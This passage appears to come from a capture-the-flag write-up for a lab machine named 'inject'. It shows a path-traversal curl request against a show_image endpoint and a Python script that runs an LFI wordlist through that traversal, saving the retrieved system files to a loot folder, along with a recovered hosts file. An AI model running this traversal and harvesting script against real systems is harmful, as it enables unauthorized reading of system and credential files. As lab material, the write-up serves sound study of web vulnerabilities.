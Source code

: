 The nginx virtual host config didn't give us anyting else, root is at `root /var/www/html;`
```
curl 'http://10.10.11.204:8080/show_image?img=../../../../../../../../..//etc/nginx/sites-available/default' -O
```
which does not correspond whith what we know the upload page runs on `/var/www/WebApp/src/main/uploads/hamster.png`  

Let's try to automate the process a little bit:
```python
import requests
from simple_chalk import green, red

URL = "http://10.10.11.204:8080/show_image?img=../../../../../../../../../"


def get_file(path):
    try:
        res = requests.get(URL + path, timeout=1)
    except (requests.exceptions.ReadTimeout,requests.exceptions.ConnectionError) as e:
        print(f"{red(e.__repr__)} - {path}")
        return

    if not str(res.status_code).startswith("2"):
        print(f"{red(res.status_code)} - {path}")
        return

    print(f"{green(res.status_code)} - {path}")
    file = path.split("/")[-1]
    local_path = "../loot/" + file
    with open(local_path, "w") as f:
        f.write(res.text)


if __name__ == "__main__":

    with open("/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt", "r") as f:
        seclist = f.readlines()

    for path in seclist:
        get_file(path.rstrip())

```

The hostname is just inject
```bash
cat hosts
127.0.0.1 localhost inject
127.0.1.1 inject

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
